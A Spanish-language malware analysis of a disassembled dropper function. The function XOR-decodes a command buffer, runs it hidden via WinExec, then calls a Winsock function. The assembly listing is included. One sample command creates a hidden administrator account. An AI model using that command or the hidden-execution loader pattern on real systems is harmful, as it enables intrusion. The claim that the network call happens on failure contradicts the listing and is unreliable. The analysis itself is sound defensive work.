 La función FUN_00402050 es el funcionamiento típico de un dropper / downloader:
- Decodifica un buffer de 256 bytes (0x100) usando XOR 0x55.
- Intenta ejecutar ese buffer como comando con WinExec().
- WinExec es una API antigua de Windows que ejecuta comandos o aplicaciones con nombre, sin redirección de consola.
- Reporta el resultado al servidor C2, dependiendo de si la ejecución fue exitosa o no.

## Análisis paso a paso:

### 1. Inicialización:
- MOV ECX, dword ptr [ESP + param_2]: Carga en el registro ECX la dirección de memoria de una cadena de caracteres (el segundo parámetro de la función). Esta cadena está actualmente cifrada.
- XOR EAX, EAX: Pone a cero el registro EAX, que se usará como contador del bucle.

### 2. Bucle de decodificación (LAB_00402056):
- El bucle se ejecuta 256 veces (desde EAX=0 hasta EAX=0xFF, ya que CMP EAX, 0x100 y JL significa "saltar si es menor").
- MOV DL, byte ptr [EAX + ECX*0x1]: Coge un byte de la cadena cifrada.
- XOR DL, 0x55: Esta es la clave. Realiza una operación XOR entre el byte del malware y la clave estática 0x55. Esta es una técnica de cifrado simétrico muy simple y común.
- MOV byte ptr [EAX + ECX*0x1], DL: Sobrescribe el byte cifrado original con el nuevo byte decodificado.
- INC EAX: Incrementa el contador para pasar al siguiente byte.

### 3. Ejecución del comando:
- PUSH 0x0 y PUSH ECX: Prepara los argumentos para la función WinExec. ECX ahora apunta a la cadena recién decodificada y 0x0 (SW_HIDE) le dice a Windows que ejecute el comando en una ventana oculta.
- CALL dword ptr [->KERNEL32.DLL::WinExec]: Llama a la función WinExec de la API de Windows, que ejecuta la cadena decodificada. Esta cadena podría ser cualquier cosa, como "calc.exe", "cmd.exe /c net user admin pass /add" o una ruta a otro malware.

### 4. Comprobación y acción secundaria:
- CMP EAX, 0x1f: Comprueba el valor de retorno de WinExec. Un valor mayor que 31 (0x1f) significa que la ejecución fue exitosa.
- Si la ejecución no fue exitosa (JLE salta si es menor o igual), el código llama a una función de la librería de sockets de Windows (WS2_32.DLL). Esto sugiere que si no puede ejecutar el comando local, podría intentar realizar una acción de red, como conectarse a un servidor de Comando y Control (C2) para reportar el error o descargar otra carga útil.


```
        00402043 90 90 90        align      align(13)
                 90 90 90 
                 90 90 90 
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_00402050(undefined4 param_1, LPCST
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1
             LPCSTR            Stack[0x8]:4   param_2                                 XREF[1]:     00402050(R)  
                             FUN_00402050                                    XREF[1]:     FUN_004012f0:00401740(c)  
        00402050 8b 4c 24 08     MOV        ECX,dword ptr [ESP + param_2]
        00402054 33 c0           XOR        EAX,EAX
                             LAB_00402056                                    XREF[1]:     00402065(j)  
        00402056 8a 14 08        MOV        DL,byte ptr [EAX + ECX*0x1]
        00402059 80 f2 55        XOR        DL,0x55
        0040205c 88 14 08        MOV        byte ptr [EAX + ECX*0x1],DL
        0040205f 40              INC        EAX
        00402060 3d 00 01        CMP        EAX,0x100
                 00 00
        00402065 7c ef           JL         LAB_00402056
        00402067 6a 00           PUSH       0x0
        00402069 51              PUSH       ECX
        0040206a ff 15 30        CALL       dword ptr [->KERNEL32.DLL::WinExec]              = 0000990a
                 90 40 00
        00402070 83 f8 1f        CMP        EAX,0x1f
        00402073 6a 00           PUSH       0x0
        00402075 6a 02           PUSH       0x2
        00402077 7e 11           JLE        LAB_0040208a
        00402079 8b 44 24 0c     MOV        EAX,dword ptr [ESP + 0xc]
        0040207d 68 94 a1        PUSH       DAT_0040a194                                     = 30h    0
                 40 00
        00402082 50              PUSH       EAX
        00402083 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        00402089 c3              RET
```

